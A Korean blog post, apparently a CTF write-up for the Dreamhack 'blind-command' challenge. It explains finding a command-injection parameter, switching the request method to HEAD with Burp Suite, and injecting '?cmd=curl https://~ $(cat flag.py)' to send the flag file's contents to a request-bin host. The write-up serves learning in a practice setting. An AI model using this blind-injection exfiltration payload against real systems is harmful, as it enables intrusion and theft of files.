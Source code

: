 ```yaml
---
layout: post
title:  "[Dreamhack] blind-command"
date:   2025-03-13 08:42:22 +0900
featured: /assets/images/블로그2.jpg
categories: jekyll update
---
```

<p>안녕하세요! 이번 문제는 드림핵 Epilogue에 있는 2번째 CTF입니다.</p>
<img src="/assets/images/P2-1.PNG" style="max-width: 100%; height: auto;"> 
<p>페이지를 보면 "cmd=?"가 출력되있으며, command injection이라는 것을 확인이 가능합니다.</p>
<img src="/assets/images/p2-2.PNG" style="max-width: 100%; height: auto;"> 
<p>하지만 url로 "cat flag.py"를 입력하면 문자 그대로 랜딩되는 것을 알 수 있습니다.</p>
<img src="/assets/images/p2-3.PNG" style="max-width: 100%; height: auto;"> 
<p>혹시 GET 아닌 다른 메소드로 전송이 가능한지, OPTIONS으로 메소드를 확인해보았습니다.</p>
<img src="/assets/images/p2-6.PNG" style="max-width: 100%; height: auto;"> 
<p>허용된 HEAD를 사용해서 전송해보니, 정상적으로 전송되는 것을 확인 가능합니다. 하지만 HEAD는 응답을 받지 못하는데요.</p>
<img src="/assets/images/p2-5.PNG" style="max-width: 100%; height: auto;"> 
<p>저는 요청을 다른 IP 또는 URL로 커맨드 결과를 전송할수 있는 curl 커맨드 와, 그 요청을 받을 수 있는 드림핵에서 지원해주는 Request bin이라는 페이지를 사용하였습니다.</p>
<img src="/assets/images/p2-7.PNG" style="max-width: 100%; height: auto;">
<p>?cmd=curl https://~ $(cat flag.py)를 인코딩하여 버프 스위트로 GET을 HEAD로 변경하여 전송합니다.</p>
<img src="/assets/images/p2-8.PNG" style="max-width: 100%; height: auto;"> 
<p>Request bin 페이지를 보면 flag값을 수신한 것을 볼 수 있습니다.</p>